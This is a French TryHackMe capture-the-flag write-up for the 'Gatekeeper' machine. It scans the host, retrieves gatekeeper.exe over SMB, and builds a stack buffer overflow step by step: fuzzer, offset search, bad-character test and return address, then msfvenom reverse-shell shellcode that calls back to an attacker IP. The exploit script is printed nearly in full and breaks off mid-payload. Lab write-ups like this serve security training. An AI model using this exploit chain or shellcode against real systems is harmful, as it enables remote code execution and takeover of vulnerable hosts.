





# Gatekeeper #

## Task 1 Approach the Gates ##

## Task 2 Defeat the Gatekeeper and pass through the fire. ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.201.116 gatekeeper.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A gatekeeper.thm
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-30 21:33 CEST
Nmap scan report for gatekeeper.thm (10.10.201.116)
Host is up (0.084s latency).
Not shown: 989 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
| rdp-ntlm-info: 
|   Target_Name: GATEKEEPER
|   NetBIOS_Domain_Name: GATEKEEPER
|   NetBIOS_Computer_Name: GATEKEEPER
|   DNS_Domain_Name: gatekeeper
|   DNS_Computer_Name: gatekeeper
|   Product_Version: 6.1.7601
|_  System_Time: 2021-08-30T19:36:24+00:00
| ssl-cert: Subject: commonName=gatekeeper
| Not valid before: 2021-08-29T19:31:07
|_Not valid after:  2022-02-28T19:31:07
|_ssl-date: 2021-08-30T19:36:38+00:00; -1s from scanner time.
31337/tcp open  Elite?
| fingerprint-strings: 
|   FourOhFourRequest: 
|     Hello GET /nice%20ports%2C/Tri%6Eity.txt%2ebak HTTP/1.0
|     Hello
|   GenericLines: 
|     Hello 
|     Hello
|   GetRequest: 
|     Hello GET / HTTP/1.0
|     Hello
|   HTTPOptions: 
|     Hello OPTIONS / HTTP/1.0
|     Hello
|   Help: 
|     Hello HELP
|   Kerberos: 
|     Hello !!!
|   LDAPSearchReq: 
|     Hello 0
|     Hello
|   LPDString: 
|     Hello 
|     default!!!
|   RTSPRequest: 
|     Hello OPTIONS / RTSP/1.0
|     Hello
|   SIPOptions: 
|     Hello OPTIONS sip:nm SIP/2.0
|     Hello Via: SIP/2.0/TCP nm;branch=foo
|     Hello From: <sip:nm@nm>;tag=root
|     Hello To: <sip:nm2@nm2>
|     Hello Call-ID: 50000
|     Hello CSeq: 42 OPTIONS
|     Hello Max-Forwards: 70
|     Hello Content-Length: 0
|     Hello Contact: <sip:nm@nm>
|     Hello Accept: application/sdp
|     Hello
|   SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|_    Hello
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49161/tcp open  msrpc        Microsoft Windows RPC
49167/tcp open  msrpc        Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port31337-TCP:V=7.91%I=7%D=8/30%Time=612D329A%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,24,"Hello\x20GET\x20/\x20HTTP/1\.0\r!!!\nHello\x20\r!!!\n")%r
SF:(SIPOptions,142,"Hello\x20OPTIONS\x20sip:nm\x20SIP/2\.0\r!!!\nHello\x20
SF:Via:\x20SIP/2\.0/TCP\x20nm;branch=foo\r!!!\nHello\x20From:\x20<sip:nm@n
SF:m>;tag=root\r!!!\nHello\x20To:\x20<sip:nm2@nm2>\r!!!\nHello\x20Call-ID:
SF:\x2050000\r!!!\nHello\x20CSeq:\x2042\x20OPTIONS\r!!!\nHello\x20Max-Forw
SF:ards:\x2070\r!!!\nHello\x20Content-Length:\x200\r!!!\nHello\x20Contact:
SF:\x20<sip:nm@nm>\r!!!\nHello\x20Accept:\x20application/sdp\r!!!\nHello\x
SF:20\r!!!\n")%r(GenericLines,16,"Hello\x20\r!!!\nHello\x20\r!!!\n")%r(HTT
SF:POptions,28,"Hello\x20OPTIONS\x20/\x20HTTP/1\.0\r!!!\nHello\x20\r!!!\n"
SF:)%r(RTSPRequest,28,"Hello\x20OPTIONS\x20/\x20RTSP/1\.0\r!!!\nHello\x20\
SF:r!!!\n")%r(Help,F,"Hello\x20HELP\r!!!\n")%r(SSLSessionReq,C,"Hello\x20\
SF:x16\x03!!!\n")%r(TerminalServerCookie,B,"Hello\x20\x03!!!\n")%r(TLSSess
SF:ionReq,C,"Hello\x20\x16\x03!!!\n")%r(Kerberos,A,"Hello\x20!!!\n")%r(Fou
SF:rOhFourRequest,47,"Hello\x20GET\x20/nice%20ports%2C/Tri%6Eity\.txt%2eba
SF:k\x20HTTP/1\.0\r!!!\nHello\x20\r!!!\n")%r(LPDString,12,"Hello\x20\x01de
SF:fault!!!\n")%r(LDAPSearchReq,17,"Hello\x200\x84!!!\nHello\x20\x01!!!\n"
SF:);
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/30%OT=135%CT=1%CU=33792%PV=Y%DS=2%DC=T%G=Y%TM=612D33
OS:48%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10C%TI=I%CI=I%II=I%SS=S%TS
OS:=7)OPS(O1=M506NW8ST11%O2=M506NW8ST11%O3=M506NW8NNT11%O4=M506NW8ST11%O5=M
OS:506NW8ST11%O6=M506ST11)WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=20
OS:00)ECN(R=Y%DF=Y%T=80%W=2000%O=M506NW8NNS%CC=N%Q=)T1(R=Y%DF=Y%T=80%S=O%A=
OS:S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y
OS:%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD
OS:=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0
OS:%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1
OS:(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI
OS:=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: Host: GATEKEEPER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 47m59s, deviation: 1h47m20s, median: -1s
|_nbstat: NetBIOS name: GATEKEEPER, NetBIOS user: <unknown>, NetBIOS MAC: 02:ee:8e:5a:87:13 (unknown)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: gatekeeper
|   NetBIOS computer name: GATEKEEPER\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-08-30T15:36:23-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-08-30T19:36:23
|_  start_date: 2021-08-30T19:30:35

TRACEROUTE (using port 21/tcp)
HOP RTT      ADDRESS
1   67.51 ms 10.9.0.1
2   89.08 ms gatekeeper.thm (10.10.201.116)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 202.38 seconds

```

Ici on voit plusieurs services :
Le service msrpc sur le port 135.   
Le service SMB sur le port 139 et 445.   
Un service pas connu sur le port  3389 et 31337.   
Le service msrpc sur le 49152-49155, 4916 et 49167. 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ smbclient -L \\\\gatekeeper.thm\\
Enter WORKGROUP\tim's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	Users           Disk      
SMB1 disabled -- no workgroup available
```

On liste les partages smb.

```bash
tim@kali:~/Bureau/tryhackme/write-up$ smbclient \\\\gatekeeper.thm\\Users\\
Enter WORKGROUP\tim's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Fri May 15 03:57:08 2020
  ..                                 DR        0  Fri May 15 03:57:08 2020
  Default                           DHR        0  Tue Jul 14 09:07:31 2009
  desktop.ini                       AHS      174  Tue Jul 14 06:54:24 2009
  Share                               D        0  Fri May 15 03:58:07 2020

		7863807 blocks of size 4096. 3977487 blocks available
smb: \> cd Share
smb: \Share\> ls
  .                                   D        0  Fri May 15 03:58:07 2020
  ..                                  D        0  Fri May 15 03:58:07 2020
  gatekeeper.exe                      A    13312  Mon Apr 20 07:27:17 2020

		7863807 blocks of size 4096. 3977615 blocks available
smb: \Share\> get gatekeeper.exe
getting file \Share\gatekeeper.exe of size 13312 as gatekeeper.exe (43,0 KiloBytes/sec) (average 43,0 KiloBytes/sec)
```

On peut accéder au partage Users, dans le répertoire Shares on voit un fichier gatekeeper.exe.
On le récupère.

On garde le fichier pour plus tard.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc  gatekeeper.thm 31337

Hello !!!
1234
Hello 1234!!!
a1a1a1a1a1a
Hello a1a1a1a1a1a!!!
```

On test le port 31337.
On remarque que le programme sur le port 31337 accepte la saisie d'un utilisateur et l'affiche avec un message Hello !!!.    

Nous allons analyser le programme gatekeeper.exe.

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wine gatekeeper.exe 
[+] Listening for connections.
```

On exécute gatekeeper.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -nv 127.0.0.1 31337
(UNKNOWN) [127.0.0.1] 31337 (?) open
1234
Hello 1234!!!
1234567890
Hello 1234567890!!!
```

Sur une autre console on faite des tests.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wine gatekeeper.exe 
[+] Listening for connections.
Received connection from remote host.
Connection handed off to handler thread.
Bytes received: 5
Bytes sent: 14
Bytes received: 11
Bytes sent: 20
```

Dans l'autre sens on remarque qu'il affiche les octets reçu et émit.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat fuzz.py 
#!/usr/bin/python
import sys,socket
import time
 
address = '127.0.0.1'
port = 31337
buffer = ['A']
counter = 100

while len(buffer) < 10:
 buffer.append('A'*counter)
 counter=counter+100
try:
 for string in buffer:
  print '[+] Sending %s bytes...' % len(string)
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  connect=s.connect((address,port))
  s.send(string + '\r\n')
  s.recv(1024)
  print '[+] Done'
except:
  print '[!] Unable to connect to the application. You may have crashed it.'
  sys.exit(0)
finally:
 s.close()
```

On fabrique un fuzzer pour voire jusqu'a quand le gatekeeper.exe plante.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ python fuzz.py 
[+] Sending 1 bytes...
[+] Done
[+] Sending 100 bytes...
[+] Done
[+] Sending 200 bytes...
```

On voit que le programme crash vers 200 octets.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wine gatekeeper.exe 
[+] Listening for connections.
Received connection from remote host.
Connection handed off to handler thread.
Bytes received: 3
Bytes sent: 12
Client disconnected.
Received connection from remote host.
Connection handed off to handler thread.
Bytes received: 102
Bytes sent: 111
Received connection from remote host.
Client disconnected.
Connection handed off to handler thread.
Bytes received: 202
send failed: 10009
wine: Unhandled page fault on read access to 41414141 at address 41414141 (thread 002c), starting debugger...
002c:err:seh:start_debugger Couldn't start debugger L"winedbg --auto 8 56" (2)
Read the Wine Developers Guide on how to set up winedbg or another debugger

```

L'adresse à été écrasé pas la chaîne AAAA.   

```python
#!/usr/bin/python
import sys,socket
import time
 
address = '127.0.0.1'
port = 31337


filler = ""
try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    connect=s.connect((address,port))
    s.send(filler + '\r\n')
except:
    print '[!] Unable to connect to the application. You may have crashed it.'
    sys.exit(0)
finally:
    s.close()
```

On va créer un programme pour trouver l'offset.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ msf-pattern_create -l 210
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9
```

On créer un chaîne pour trouver l'offset on l'inclut dans notre script python.   

```python
tim@kali:~/Bureau/tryhackme/write-up$ cat findoffset.py 
#!/usr/bin/python
import sys,socket
import time
 
address = '127.0.0.1'
port = 31337


filler = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9"
try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    connect=s.connect((address,port))
    s.send(filler + '\r\n')
except:
    print '[!] Unable to connect to the application. You may have crashed it.'
    sys.exit(0)
finally:
    s.close()
```

On modifie notre programme.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ python findoffset.py 
```

On exécute le programme.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wine gatekeeper.exe 
[+] Listening for connections.
Received connection from remote host.
Connection handed off to handler thread.
Bytes received: 212
send failed: 10009
wine: Unhandled page fault on read access to 39654138 at address 39654138 (thread 002b), starting debugger...
002b:err:seh:start_debugger Couldn't start debugger L"winedbg --auto 8 64" (2)
Read the Wine Developers Guide on how to set up winedbg or another debugger
```

On voit que le programme plante à l'adresse 39654138.
Grace à l'adresse on peut caluler l'offset.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ msf-pattern_offset -l 210 -q 39654138
[*] Exact match at offset 146
```

msf-pattern_offset nous calcul le bon offset.  

```python
tim@kali:~/Bureau/tryhackme/write-up$ cat exploit.py 
#!/usr/bin/python
import sys,socket
import time
 
address = '127.0.0.1'
port = 31337


offset = 146
overflow = "A" * 146
ret = "BBBB"

filler = overflow + ret  

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    connect=s.connect((address,port))
    s.send(filler + '\r\n')
except:
    print '[!] Unable to connect to the application. You may have crashed it.'
    sys.exit(0)
finally:
    s.close()
```

On met le bon offset et on met un pattern sur l'adresse de retour.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wine gatekeeper.exe 
[+] Listening for connections.
```

On lance le programme.   
```

```bash
tim@kali:~/Bureau/tryhackme/write-up$ python exploit.py 
```

On lance l'exploit.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wine gatekeeper.exe 
[+] Listening for connections.
Received connection from remote host.
Connection handed off to handler thread.
Bytes received: 152
send failed: 10009
wine: Unhandled page fault on read access to 42424242 at address 42424242 (thread 002b), starting debugger...
002b:err:seh:start_debugger Couldn't start debugger L"winedbg --auto 8 64" (2)
Read the Wine Developers Guide on how to set up winedbg or another debugger
```

On voit le programme plante, on reconnais l'adresse de retour qui est 42424242 donc la taille de l'overflow et de retour son bon.    

Maintenant il faut repérer les mauvais caractères.   

```python
#!/usr/bin/python
import sys,socket
import time
 
address = '192.168.1.89'
port = 31337


offset = 146
overflow = "A" * 146
ret = "BBBB"
payload =  ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

filler = overflow + ret + payload

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    connect=s.connect((address,port))
    s.send(filler + '\r\n')
except:
    print '[!] Unable to connect to the application. You may have crashed it.'
    sys.exit(0)
finally:
    s.close()
```

A partir ici je n'arrive plus à utiliser wine le débogueur plante.    

Je vais utiliser Immunity Debugger sous windows.  

On install Immunity.
On met gatekepeer.exe, si il se lance pas installer vc_redist.86.exe    
Si y des problème de réseaux désactiver le pare feu de windows. \(Utilisez un VM windows\)   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ python exploit.py 
```

On lance l'exploit.  



On fait follow dump sur esp. 

On remarque \\x00 est un caractère interdit car caractère fin de chaîne et que \\x0A est aussi interdit car dans le dump sa valeur à été modifier par \\x00.    

Maintenant il faut trouver l'adresse pour sauter sur notre shell code.   



Installer mona.py dans immunity.   



On vérifie si gatekeeper.exe n'a pas de protection, ici on voit que l'ASLR n'est pas activé donc l'adresse de saut ne sera pas décalée.  



On trouve deux adresse que l'on utiliser dans notre exploit.  
Comme notre architecture est en x86 , nous somme en little endian donc on inverse l'adresse.  
L'adresse sera \\xc3\\x14\\x04\\x08

```python
tim@kali:~/Bureau/tryhackme/write-up$ cat exploit.py 
#!/usr/bin/python
import sys,socket
import time
 
address = '192.168.1.89'
port = 31337


offset = 146
overflow = "A" * 146
ret = "\xc3\x14\x04\x08"
payload = ""

filler = overflow + ret + payload

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    connect=s.connect((address,port))
    s.send(filler + '\r\n')
except:
    print '[!] Unable to connect to the application. You may have crashed it.'
    sys.exit(0)
finally:
    s.close()
```

On modifie notre exploit.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ msfvenom -p windows/shell_reverse_tcp LHOST=10.9.228.66 LPORT=1234 EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00\x0a"
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of c file: 1500 bytes
unsigned char buf[] = 
"\xb8\xd4\x83\x3c\x2d\xdb\xc1\xd9\x74\x24\xf4\x5e\x33\xc9\xb1"
"\x52\x31\x46\x12\x83\xc6\x04\x03\x92\x8d\xde\xd8\xe6\x7a\x9c"
"\x23\x16\x7b\xc1\xaa\xf3\x4a\xc1\xc9\x70\xfc\xf1\x9a\xd4\xf1"
"\x7a\xce\xcc\x82\x0f\xc7\xe3\x23\xa5\x31\xca\xb4\x96\x02\x4d"
"\x37\xe5\x56\xad\x06\x26\xab\xac\x4f\x5b\x46\xfc\x18\x17\xf5"
"\x10\x2c\x6d\xc6\x9b\x7e\x63\x4e\x78\x36\x82\x7f\x2f\x4c\xdd"
"\x5f\xce\x81\x55\xd6\xc8\xc6\x50\xa0\x63\x3c\x2e\x33\xa5\x0c"
"\xcf\x98\x88\xa0\x22\xe0\xcd\x07\xdd\x97\x27\x74\x60\xa0\xfc"
"\x06\xbe\x25\xe6\xa1\x35\x9d\xc2\x50\x99\x78\x81\x5f\x56\x0e"
"\xcd\x43\x69\xc3\x66\x7f\xe2\xe2\xa8\x09\xb0\xc0\x6c\x51\x62"
"\x68\x35\x3f\xc5\x95\x25\xe0\xba\x33\x2e\x0d\xae\x49\x6d\x5a"
"\x03\x60\x8d\x9a\x0b\xf3\xfe\xa8\x94\xaf\x68\x81\x5d\x76\x6f"
"\xe6\x77\xce\xff\x19\x78\x2f\xd6\xdd\x2c\x7f\x40\xf7\x4c\x14"
"\x90\xf8\x98\xbb\xc0\x56\x73\x7c\xb0\x16\x23\x14\xda\x98\x1c"
"\x04\xe5\x72\x35\xaf\x1c\x15\x30\x39\xfa\xa7\x2c\x3b\x02\x2c"
"\x7f\xb2\xe4\x46\x6f\x93\xbf\xfe\x16\xbe\x4b\x9e\xd7\x14\x36"
"\xa0\x5c\x9b\xc7\x6f\x95\xd6\xdb\x18\x55\xad\x81\x8f\x6a\x1b"
"\xad\x4c\xf8\xc0\x2d\x1a\xe1\x5e\x7a\x4b\xd7\x96\xee\x61\x4e"
"\x01\x0c\x78\x16\x6a\x94\xa7\xeb\x75\x15\x25\x57\x52\x05\xf3"
"\x58\xde\x71\xab\x0e\x88\x2f\x0d\xf9\x7a\x99\xc7\x56\xd5\x4d"
"\x91\x94\xe6\x0b\x9e\xf0\x90\xf3\x2f\xad\xe4\x0c\x9f\x39\xe1"
"\x75\xfd\xd9\x0e\xac\x45\xf9\xec\x64\xb0\x92\xa8\xed\x79\xff"
"\x4a\xd8\xbe\x06\xc9\xe8\x3e\xfd\xd1\x99\x3b\xb9\x55\x72\x36"
"\xd2\x33\x74\xe5\xd3\x11";
```

On génère notre charge utile qui sera un reverse shell.     

```python
tim@kali:~/Bureau/tryhackme/write-up$ cat exploit.py 
#!/usr/bin/python
import sys,socket
import time
 
address = 'gatekeeper.thm'
port = 31337


offset = 146
overflow = "A" * 146
ret = "\xc3\x14\x04\x08"
padding = "\x90" *16
payload = ("\xb8\xd4\x83\x3c\x2d\xdb\xc1\xd9\x74\x24\xf4\x5e\x33\xc9\xb1"
"\x52\x31\x46\x12\x83\xc6\x04\x03\x92\x8d\xde\xd8\xe6\x7a\x9c"
"\x23\x16\x7b\xc1\xaa\xf3\x4a\xc1\xc9\x70\xfc\xf1\x9a\xd4\xf1"
"\x7a\xce\xcc\x82\x0f\xc7\xe3\x23\xa5\x31\xca\xb4\x96\x02\x4d"
"\x37\xe5\x56\xad\x06\x26\xab\xac\x4f\x5b\x46\xfc\x18\x17\xf5"
"\x10\x2c\x6d\xc6\x9b\x7e\x63\x4e\x78\x36\x82\x7f\x2f\x4c\xdd"
"\x5f\xce\x81\x55\xd6\xc8\xc6\x50\xa0\x63\x3c\x2e\x33\xa5\x0c"
"\xcf\x98\x88\xa0\x22\xe0\xcd\x07\xdd\x97\x27\x74\x60\xa0\xfc"
"\x06\xbe\x25\xe6\xa1\x35\x9d\xc2\x50\x99\x78\x81\x5f\x56\x0e"
"\xcd\x43\x69\xc3\x66\x7f\xe2\xe2\xa8\x09\xb0\xc0\x6c\x51\x62"
"\x68\x35\x3f\xc5\x95\x25\xe0\xba\x33\x2e\x0d\xae\x49\x6d\x5a"
"\x03\x60\x8d\x9a\x0b\xf3\xfe\xa8\x94\xaf\x68\x81\x5d\x76\x6f"
"\xe6\x77\xce\xff\x19\x78\x2f\xd6\xdd\x2c\x7f\x40\xf7\x4c\x14"
